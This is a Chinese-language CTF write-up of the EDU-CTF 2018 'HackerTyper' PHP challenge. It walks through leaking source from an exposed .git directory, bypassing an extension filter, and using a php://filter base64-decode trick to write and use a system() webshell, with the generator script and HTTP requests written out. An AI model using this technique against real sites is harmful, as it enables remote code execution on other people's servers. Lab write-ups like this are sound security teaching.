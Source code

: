 ```yaml
---
uuid: 1d24c795
title: EDU-CTF 2018 - HackerTyper
tags:
  - writeup 
  - web
  - php
categories:
  - Capture The Flag
  - EDU-CTF 2018
date: 2019-02-01 00:00:00
updated: 2019-02-01 00:00:00
---
```


題目點進去會看到一個風格很 hacker 的網站，觀察 js 後發現什麼也沒有zzz

<!--more-->

# [正文]

透過簡單的測試發現它有 `.git`，卻沒有擋掉 `.git/*`，馬上用 `dvcs-ripper` 拉下來，checkout 後得到 source code!

{% codeblock lang:shell line_number:false %}
$ perl rip-git.pl -vv -o ./ -u http://final.kaibro.tw:10003/.git
[i] Downloading git files from http://final.kaibro.tw:10003/.git 
...
[i] Got items with git fsck: 0, Items fetched: 0
[!] No more items to fetch. That's it!

$ git log
...
commit c593e752192d5a2159bf8d9d00e639f8ada5deb5
Author: root <root@83a85fdd8851.(none)>
Date:   Thu Jan 10 21:56:36 2019 -0500

    update
...
$ git checkout c593e7521
...
HEAD is now at c593e75 update
$ ls
code.txt  index.php*  script.js  style.css
{% endcodeblock %}

{% codeblock index.php lang:php line_number:true %}
<?php

$sandbox = "/var/www/html/sandbox/" . md5($_SERVER['REMOTE_ADDR'] . "QQ");
@mkdir($sandbox);
@chdir($sandbox);

$path = 'code.txt';

if ( isset($_GET['_']) && isset($_GET['f']) ) {

    $_ = $_GET['_'];
    $f = $_GET['f'];

    if(preg_match("/h/is", pathinfo($f, PATHINFO_EXTENSION)))
        die("No h4cker will use h :p");

    $c = "Q____Q" . base64_encode($_);
    $path = 'sandbox/' . md5($_SERVER['REMOTE_ADDR'] . "QQ") . '/' . $f;

    @file_put_contents($f, $c);

}
?>

...
{% endcodeblock %}

## Analysis
1. 看到 `@file_put_contents($f, $c)`，推測用 `php://filter`
2. `$f` 會被 `preg_match("/h/is", pathinfo($f, PATHINFO_EXTENSION))` 過濾掉含 `h` 的副檔名，要 bypass WAF 的話，可以在後面加上 `/.` 讓 `pathinfo($f, PATHINFO_EXTENSION)` 回傳空字串，而 `@file_put_contents($f, $c)` 會忽略 `/.`
  {% note info %}
  ### PATHINFO_EXTENSION
  它會回傳最後一個 `.` 後面的內容當做副檔名，沒有東西的話會回傳空字串
  {% endnote %}
3. `$c` 是 `base64_encode($_) + "Q____Q"`，沒辦法簡單的 base64_decode，base64 是 4 char block 的，且 decode 會忽略非 base64 字元，利用此性質建構 payload:
  {% codeblock lang:plain line_number:false %}
  // generate payload
              |----|----|----|----|----|----|----|----|----|----|
  1. payload  |xxx |xxx |xxx |xxx |xxx |xxx |xxx |xxx |x   |    |
  2. encode   |aaaa|bbbb|cccc|dddd|eeee|ffff|gggg|hhhh|ii==|    |
  3. cut&add  |QQaa|aabb|bbcc|ccdd|ddee|eeff|ffgg|gghh|hhii|    |
  4. decode   |yyy |yyy |yyy |yyy |yyy |yyy |yyy |yyy |yyy |    |
  
  // by site index.php, Q____Q => QQ with base64 decode
              |----|----|----|----|----|----|----|----|----|----|
  5. encode   |QQaa|aabb|bbcc|ccdd|ddee|eeff|ffgg|gghh|hhii|    |
  6. addQQ    |QQQQ|aaaa|bbbb|cccc|dddd|eeee|ffff|gggg|hhhh|ii  |
  
  // by php://filter/convert.base64-decode
              |----|----|----|----|----|----|----|----|----|----|
  7. decode   |A?? |xxx |xxx |xxx |xxx |xxx |xxx |xxx |xxx |x   |
  {% endcodeblock %}
  
  {% note warning %}
  其中 2. 一定要找到 encode 完之後最後兩個為 `==` 的 payload，才能在步驟三把 `==` 消掉，並在前面加上任意兩個字元。
  {% endnote %}


## Gen Payload

{% codeblock lang:php line_number:true %}
<?php
$payload = '<?php system($_GET[0]);?>';

$payload = base64_encode($payload);
if ( strcmp( substr( $payload, -2 ), '==' ) ) {
    die( "Not good base64_encode: $payload" );
}

$payload = base64_decode( 'QQ' . substr( $payload, 0, -2 ) );
echo '_=' . urlencode($payload);
{% endcodeblock %}

## Get shell
將產生的 payload 放進 `$_GET["_"]`，且 `$_GET["f"]` = `php://filter`
{% codeblock Http request lang:plain line_number:false %}
http://final.kaibro.tw:10003/
GET _=${PAYLOAD}
    f=php://filter/convert.base64-decode/resource=webshell.php/.
{% endcodeblock %}

{% codeblock Http request lang:plain line_number:false %}
http://final.kaibro.tw:10003/sandbox/$(md5(IP))/webshell.php
GET 0=ls%20/
bin boot dev etc flag_is_in_it.php ...
GET 0=cat%20/flag_is_in_it.php
<?php
$s = "bY5dT8IwFIbv/RWjYWtryAIr4QbRZdx45Q16oQhnH2mriRk4GNEQ+O2eno0ICVdtn/e8z+ndQ1EXN13wJh6/jefBMX3nfMmX4j6NOikfY0RZEDVBejxRwmNEcfsmECOYnIAjgseLDsIweuQyRIxZTpN+sECu3hLp5gmy6csUawMDtlawUsbCb5ltP8qtgk1fQz1c/ygNX30Ahp3kit+p3F5T6F1mNwI3uq0QMt8wukHPM1br6lPgATq3AyW6pt5ZKSW125//p6vSVKMhVNk6/67QKMNWQLMoJW/TTpom6dsvsINv9s9PrzPWO5Ni5dIDtP8P";
eval(str_rot13(gzinflate(base64_decode($s))));
// find the flag!
{% endcodeblock %}

不知道為啥，evel 會壞掉，只好 `echo str_rot13(gzinflate(base64_decode($s)))` 得到：
{% codeblock lang:php line_number:true %}
<?php
$_ = '*@[&~`\''^'^(>`2!`';
$__ = '&2`\''^'`~!`';
$___ = ';'^'@';
$____ = '@'^'=';
$_____ = ('@]!'^'.2U').$__;
$o = '@%&]'^'3MO)';
$$o = "PHP___1s_th3_b3st_languag3_f0r_h4ck3r_y0__";
$O = ('@]!'^'.2U').$_;
$$_ = sprintf($__.$___."%s".$____, strrev(str_rot13($shit)));
$$_____ = str_rot13(base64_encode($_).strrev($____.$_.$___));
$$O = strrev(sprintf("}%s{GALF", str_rot13($__).strrev($_____)));
{% endcodeblock %}

仔細觀察後發現 `$$_` 就是 flag 了！

FLAG: `FLAG{__0l_e3xp4u_e0s_3tnhtany_gf3o_3ug_f1___CUC}`
